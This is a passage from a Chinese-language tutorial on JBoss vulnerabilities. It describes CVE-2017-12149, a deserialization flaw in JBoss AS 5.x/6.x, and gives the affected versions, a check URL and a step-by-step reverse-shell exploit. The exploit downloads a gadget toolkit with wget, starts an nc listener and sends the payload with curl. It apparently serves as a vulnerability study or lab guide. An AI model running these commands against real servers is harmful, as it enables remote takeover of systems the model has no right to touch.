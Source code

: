 ![image-20200702142036913](/images/Jboss/image-20200702142036913.png)

![image-20200702142043798](/images/Jboss/image-20200702142043798.png)

##### 漏洞修复

1、版本升级



#### CVE-2017-12149

##### 漏洞描述

此漏洞主要是由于`jboss\server\all\deploy\httpha-invoker.sar\invoker.war\WEB-INF\classes\org\jboss\invocation\http\servlet`目录下的`ReadOnlyAccessFilter.class`文件中的`doFilter`方法，再将序列化传入`ois`中，并没有进行过滤便调用了`readObject()`进行反序列化，导致传入的携带恶意代码的序列化数据执行，造成了反序列化的漏洞。

##### 影响范围

JBossAS 5.x

JBossAS 6.x

##### 漏洞原理

该漏洞存在于JBoss AS的HttpInvoker 组件中的ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

##### 漏洞检测

1、版本确定

![image-20200630152601209](/images/Jboss/image-20200630152601209.png)

2、PoC访问

````shell
http://172.16.144.135:8080/invoker/readonly
//如出现500可确定目标主机存在漏洞
````

![image-20200630152657545](/images/Jboss/image-20200630152657545.png)

3、反弹shell

```shell
# nc -lvnp 8888(攻击主机执行监听)
//攻击主机目录下下载
# wget http://scan.javasec.cn/java/JavaDeserH2HC.zip
# unzip JavaDeserH2HC.zip
# cd JavaDeserH2HC(以下命令均在攻击主机目录下执行，执行java生成序列化数据)
# javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
# java -cp .:commons-collections-3.2.1.jar  ReverseShellCommonsCollectionsHashMap 172.16.144.135:8888				(攻击主机及端口号)
# curl http://172.16.144.135:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```
